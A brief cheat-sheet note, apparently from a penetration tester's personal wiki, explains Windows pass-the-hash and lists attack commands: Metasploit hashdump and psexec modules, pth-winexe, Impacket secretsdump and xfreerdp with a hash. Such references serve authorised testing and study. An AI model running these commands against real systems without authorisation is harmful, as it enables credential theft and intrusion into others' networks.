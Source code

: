 # Pass the Hash
Pass the hash technique allow an attacker to authenticate to a remote system or service using a user' NTLM hash instead of plaintext password. It requires access to the special administrative share named Admin$, thus also local administrative rights. There many tools for performing a similar to legimate use of connecting with SMB. [[Metasploit]] has:
```bash
post/windows/gather/hashdump
exploit/windows/smb/psexec
```
Another method:
```bash
pth-winexe -U $username%$NT:$LM //$ip cmd
```
[[Impacket-Cheatsheet]] with:
```bash
secretsdump.py $user@$ip -hashes $hash
```
Or login with [[Evil-winrm-Cheatsheet]] using  `-H`  or  `xfreerdp` with:
```bash
xfreerdp /v:$IP /u:Administrator /pth:$Hash
```